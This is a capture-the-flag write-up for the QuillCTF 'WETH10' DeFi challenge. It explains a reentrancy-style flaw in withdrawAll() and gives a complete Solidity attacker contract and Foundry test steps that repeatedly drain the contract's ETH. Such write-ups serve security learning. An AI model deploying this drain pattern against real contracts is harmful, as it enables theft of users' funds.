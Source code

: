 # Quill CTFs Write-Ups

## WETH10

**Author**: [0x4non](https://twitter.com/eugenioclrc) <br />
**Difficulty**: Medium <br />
**Type**: DeFi Security <br />

It is possible to transfer the tokens before being burned on the `withdrawAll()` function by using the `receive` function:


#### Attacker contract
```
pragma solidity ^0.8.0;

import "../WETH10.sol";

// Mario Götze
contract Attacker {
    WETH10 victim;
    address owner;

    constructor(WETH10 _victim, address _owner) {
        victim = _victim;
        owner = _owner;
    }

    function attack() external {
        victim.withdrawAll();
    }

    function withdraw() external {
        require(msg.sender == owner);
        (bool success, ) = owner.call{value: address(this).balance}("");
        require(success);
    }

    receive() external payable {
        victim.transfer(owner, victim.balanceOf(address(this)));
    }
}
```

#### Attack steps
```
        vm.startPrank(bob);
        
        Attacker attacker = new Attacker(weth, bob); // Deploy attacker

        weth.deposit{value: 1 ether}(); // ETH -> WETH
        weth.transfer(address(attacker), 1 ether); Transfer WETH to attacker

        // Drain the contract
        while (address(weth).balance != 0) {
            attacker.attack();
            weth.transfer(address(attacker), 1 ether);
        }

        attacker.withdraw(); // Transfer funds to Bob

        vm.stopPrank();
```
